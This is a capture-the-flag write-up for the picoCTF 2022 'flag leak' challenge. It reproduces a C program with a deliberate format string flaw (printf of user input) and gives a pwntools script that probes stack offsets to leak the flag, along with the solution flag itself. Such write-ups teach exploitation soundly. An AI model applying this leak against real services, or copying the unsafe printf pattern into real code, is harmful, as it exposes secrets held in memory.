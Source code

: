 # picoCTF 2022

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | flag leak |
| Points | 300 |

## Description
Story telling class 1/2 I’m just copying and pasting with this program. What can go wrong?

This challenge provided a binary and its C source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

From the source code we can see it will read the flag into flag variable. Besides, vulnerability is format string vulnerability by looking at this code:

```python3 
printf(story);
```

Variables are store in stack, chances are we can leak the flag by utilizing this format string vulnerability.

I created a simply script to leaked the flag, not perfect but it will do its job:

```python3
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)
context.log_level = "error"

for x in range(130):
  try:
    p = remote('saturn.picoctf.net', 49713)
    p.recvuntil(b">> ")
    p.sendline('%{}$s'.format(x).encode())
    p.recvline()
    leaked = p.recvline()
    if b"CTF{" in leaked:
      print("Flag:", leaked)
      break
    else:
      print(leaked)
  except EOFError:
    pass
  ```
  
 to run the `exploit`:
 
 `python3 solv.py`
 
 and we obtain the `flag`
 
### Flag:

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_0551082c}`
